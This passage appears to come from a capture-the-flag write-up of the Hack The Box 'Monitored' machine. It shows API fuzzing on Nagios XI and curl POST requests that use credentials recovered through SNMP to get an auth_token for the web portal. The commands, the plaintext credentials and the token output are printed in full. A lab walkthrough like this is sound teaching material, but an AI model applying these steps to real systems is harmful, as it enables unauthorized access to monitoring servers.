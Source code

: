 Here, we have to use `-fs 32` in order to filter out all the request the returns 32 octet since all the request to `https://nagios.monitored.htb/nagiosxi/api/v1/XXXXX` return 32 byte with a `200 : OK` saying `no api key provided` :

<img src="/assets/img/MonitoredWriteup/mon3.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

So we found the `authenticate` directory and when we visit the page, we find :

<img src="/assets/img/MonitoredWriteup/mon3-5.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

If we try to send a POST request as requested (`-X POST` to specify a post request, `-k` to specify that we don't need to validate certificate since it has been self signed), we get the following :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Software_exploitation/HTB$ curl -k -X POST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate"
{"error":"Must be valid username and password."}
```

It says that we need to provide a username and password, so let's provide the ones we found in our SNMP walk (use `-d` in order to add a `data` field to the POST request:

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Software_exploitation/HTB$ curl -k -X POST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate" -d "username=svc&password=XjH7VCehowpR1xZB"
{"username":"svc","user_id":"2","auth_token":"ffedddd49d7af30330ef07470be860eff10d3509","valid_min":5,"valid_until":"Sat, 10 Feb 2024 17:09:42 -0500"}
```

This gives us an `auth_token`. We can use that authentication token in order to get access to SVC's web portal. If we look at the [documentation of Nagios XI API](https://www.nagios.org/ncpa/help/2.0/api.html), we see that we can add the `?token=mytoken` argument into our searchbar. So let's do that in the base nagiosxi webpage :

<img src="/assets/img/MonitoredWriteup/mon4.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

